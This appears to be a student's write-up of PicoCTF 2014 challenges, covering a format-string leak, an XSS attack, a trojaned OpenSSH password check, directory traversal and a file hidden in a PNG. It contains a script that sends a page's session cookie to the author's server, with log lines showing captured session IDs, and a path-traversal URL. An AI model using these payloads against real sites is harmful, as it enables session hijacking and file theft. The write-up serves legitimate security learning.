

# Pico-CTF-2014
Writeup from PicoCTF 2014

Originally had this on my website, but now I’m moving it here

PicoCTF 2014
===================

Intro
------
PicoCTF ran from October 27to  November 7. From PicoCTF's website:
What is picoCTF?
picoCTF is a computer security game targeted at middle and high school students. The game consists of a series of challenges centered around a unique storyline where participants must reverse engineer, break, hack, decrypt, or do whatever it takes to solve the challenge. The challenges are all set up with the intent of being hacked, making it an excellent, legal way to get hands-on experience. Read more on the About page.

It was an amazing competition, extremely fun and interesting, I am looking forward to next year's.
There were 3,185 teams that competed in total, while I wanted to score in the top 100, I ended up just short. Next year, I plan on scoring higher, and getting a free t-shirt.

**There are numerous writeups from PicoCTF 2014, I'll be covering the challenges that I enjoyed the most & thought were the most interesting**


Guess
-----
This challenge used logic similar to Format (a string formatting exploit)
To start, we need to connect to the server
```bash
nc vuln2014.picoctf.com 4546
```
We are greeted with a message: "Hello, what is your name?"
If we look at the source code, we can see what happens next
```bash
printf("Hello! What is your name?\n");
fgets(name, sizeof(name), stdin);

printf("Welcome to the guessing game, ");
printf(name);
```
It will call printf on the variable name, which we control. Now, we can use string formatting to get our randomly generated number from the stack.
We need to first walk up the stack, so I did a bit of guess work, and eventually got the right amount of times to walk up the stack (4).
```bash
Hello! What is your name?
%p%p%p%d
Welcome to the guessing game, 0x200xf7770c200x8c61008-1208183517
```
I walked up 3 times, and then used %d to get a decimal value.
It then asked for a "guess" Which was -1208183517
>Wow! You guessed it!
>Your flag is: leak_the_seakret


Secure Page Service
-------------------

So, off the bat we are told that there is a "secure page service" (similar to something like pastebin) and we want to read the page with the ID 43440b22864b30a0098f034eaf940730ca211a55. The page is password protected, and can only be read by a moderator.

When we check out the SPS, we see that it wants us to register, so I signed up with some bogus information, and moved on.

The page which allows you to create a "page" is where the vulnerability  is. We can quickly test if the page
is vulnerable to [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting) with the following code:

```bash
<html>
<script>
alert("XSS")
</script>
</html>
```
Yup, so now we need to become a moderator, to access the page that wants a password.
[Some quick reading](http://www.12robots.com/index.cfm/2010/9/14/Whats-Possible-with-XSS--Security-Series-81)
gave me insight as to how I could become a moderator, I would have to steal their Php Session ID, which is stored in a cookie.

```bash
<html>

<script>
document.xss.src = "davidej.com/1.jpg/?key=" + document.cookie;
</script>
<html>
```
This would force the page to make a request to my web server. Javascript would then append the value of that cookie to the URL. Submit the page,
I looked at my own page, and then checked my logs (on my webserver)
(an excerpt)
```bash
"GET /1.jpg/?key=PHPSESSID=dfc4ss0muj21bqmfdk1uaquvn5 HTTP/1.1"
```
So I was able to grab my own session ID, now I needed to get the moderator's. Luckily enough, they had a handy "report to moderator" button. Clicked that, and checked logs again.
```bash
"GET /1.jpg/?key=PHPSESSID=2frdk2lni2k8bb71i5eojccmf7 HTTP/1.1"
```
So now that I have a moderator's session ID, I (to the website atleast) am him. I just need to modify the PHPSESSID cookie (I used Firebug, you could use something like edit this cookie, or tons of other tools).
Now, I am a moderator, I just nagivate to page 43440b22864b30a0098f034eaf940730ca211a55, and there is the flag, wow_cross_site_scripting_is_such_web

What_the_flag
-------------
This challenge was especially fun, because while I do know the way this was supposed to be solved, I was able to find a different way. The solution I used was similar to an earlier challenge. The real way to solve this was to cause a buffer overflow, and cause not_the_flag.txt to be flag.txt. On the shell, your user has write access to single directory, home, or ~. I just [symlinked](https://en.wikipedia.org/wiki/Symbolic_link) not_the_flag.txt to ~/flag.txt and did the same for the binary.

Basic ASM
---------

We were given a snippet of code:
```asm
# This file is in AT&T syntax - see http://www.imada.sdu.dk/Courses/DM18/Litteratur/IntelnATT.htm
# and http://en.wikipedia.org/wiki/X86_assembly_language#Syntax. Both gdb and objdump produce
# AT&T syntax by default.
MOV $16391,%ebx
MOV $20965,%eax
MOV $24830,%ecx
CMP %eax,%ebx
JL L1
JMP L2
L1:
IMUL %eax,%ebx
ADD %eax,%ebx
MOV %ebx,%eax
SUB %ecx,%eax
JMP L3
L2:
IMUL %eax,%ebx
SUB %eax,%ebx
MOV %ebx,%eax
ADD %ecx,%eax
L3:
NOP
```
And told to find the value of %eax (the register) when the NOP runs.
The easiest thing to do, would have just been to run it, but I hadn't thought of that, so I had to just draw everything out.

We know the following:
in %ebx the value 16391 is stored
in %eax the value 20965 is stored
and in %ecx the value 24830 is stored

Now, we just follow the math & CMPs. Any questions about the syntax, just refer to AT&T documentation.

SSH Backdoor
------------

For this challenge we are told that someone hijacked Jon's server, and the last thing they say him downloading was [this](https://picoctf.com/problem-static/forensics/SSHBackdoor/openssh-6.7p1-evil.tar.gz)
Firstly, since we know this is backdoored, we need the original to compare it to. Some quick googling and I find the actual OpenSSH server 6.7 source code. I looked at the two, I could have used some
automatic tool to find differences in the two folders, but I hadn't thought of that.
Since it was mostly the same, whatever the attackers changed had to have been changed at a date later than the original writing date. This would mean I could easily find the modified files.



(Only reason I was using windows in the image above was because I need [IDA](https://www.hex-rays.com/products/ida/) for another challenge, for CTFs it tends to be easier to use Linux)

I compared the changed files using [diffchecker](https://www.diffchecker.com/) and found this:

```c
static int frobcmp(const char *chk, const char *str) {
        int rc = 0;
        size_t len = strlen(str);
        char *s = xstrdup(str);
        memfrob(s, len);

        if (strcmp(chk, s) == 0) {
                rc = 1;
        }

        free(s);
        return rc;
}

int check_password(const char *password) {
        return frobcmp("CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY", password);
}

```
It's using [memfrob](http://linux.die.net/man/3/memfrob) to encrypt the password. All memfrob does is encrypting the first n bytes (in this case, the whole string) by each char with the number 42. From the documentation: "The effect can be reversed by using memfrob() on the encrypted memory area."
Perfect, I made a little C program to figure out the password by doing exactly that:

```c
#include <stdio.h>
#include <string.h>
char *
xstrdup (const char *string)
{
  return strcpy (malloc (strlen (string) + 1), string);
}


static int frobcmp(const char *chk, const char *str) {
        int rc = 0;
        size_t len = strlen(str);
        char *s = xstrdup(str);
        printf(s);
        memfrob(s, len);
        printf(s);
        if (strcmp(chk, s) == 0) {
                rc = 1;
        }

        free(s);
        return rc;
}

int check_password(const char *password) {
        return frobcmp("CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY", password);
}
int main(void){
        check_password("CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY");
        return 0;
}

```
Compliles, great, now to run it
```bash
CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMYiminyourmachinestealingyourflags%
```
Thats the before & after, so obviously the password is the latter part: iminyourmachinestealingyourflags
Now we just ssh in, and read the flag file:
```bash
jon@ip-10-45-162-116:~$ cat flag.txt
ssshhhhh_theres_a_backdoor
```
And there's our flag.

Potentially Hidden Password
---------------------------
This Daedalus Corp. website loads images in a rather odd way...

Looking at the source code, the first thing that seems relevant is this:

```php
          <?php
             $config_file = fopen("/resources/config/admin_mode.config", "r");
             if (fgets($config_file) === "true") {
                $flag_file = fopen("/resources/secrets/flag", "r");
                echo fgets($flag_file);
                flose($flag_file);
             }
             fclose($config_file);
           ?>
```
After messing around with that for a little while I realized there is no way (that I could find) so change that varible, so I moved on...

The next thing that looked a bit off was this:
```bash

```
A php function that loads files arbitrarily should be useful.
It can be used like this: http://web2014.picoctf.com/potentially-hidden-password-3878213/file_loader.php?file=zone1.jpg
So, I now needed to find the flag, well refering to the suspicious code earier, it should be located at: /resources/secrets/flag
Great, now to load the file: http://web2014.picoctf.com/potentially-hidden-password-3878213/file_loader.php?file=resources/secrets/flag
 No such file: /resources/files/resources/secrets/flag

Hmm, ok, so we need to traverse directories. ".." represents 1 directory up (cd .. will move you up 1 folder), so I used that: http://web2014.picoctf.com/potentially-hidden-password-3878213/file_loader.php?file=/../secrets/flag
There's the flag: i_like_being_included

PNG or Not?
------------

Here, there is a picture of a QR code. My first instinct was to simply lookup what the QR linked. Sadly, it wasn't that easy.
Here is the picture:


So, there had to be something hidden in that file, I started examing the hexdump
".f.l.a.g...t.x.t.."
Hmm, so it's hiding flag.txt in there somehow. I decided to try to view it with winrar, to see if maybe something was in there, and low and behold:
flag.txt. Open it up, and there is the flag: EKSi7MktjOpvwesurw0v
